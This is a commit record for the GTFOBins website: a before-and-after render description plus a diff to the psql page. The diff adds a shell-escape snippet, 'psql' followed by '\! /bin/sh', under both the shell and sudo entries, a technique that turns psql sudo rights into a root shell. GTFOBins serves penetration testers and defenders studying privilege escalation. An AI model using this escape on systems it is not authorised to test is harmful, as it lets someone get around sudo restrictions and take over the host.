

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/psql.md, in a window 1280 px wide. Shown: the top 775 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update psql.md
Update psql.md
The previous option was not working for me and the new one is working

```diff
--- a/_gtfobins/psql.md
+++ b/_gtfobins/psql.md
@@ -6,9 +6,15 @@ functions:
         psql
         \?
         !/bin/sh
+    - code: |
+        psql
+        \! /bin/sh
   sudo:
     - code: |
         psql
         \?
         !/bin/sh
+    - code: |
+        psql
+        \! /bin/sh
 ---
```
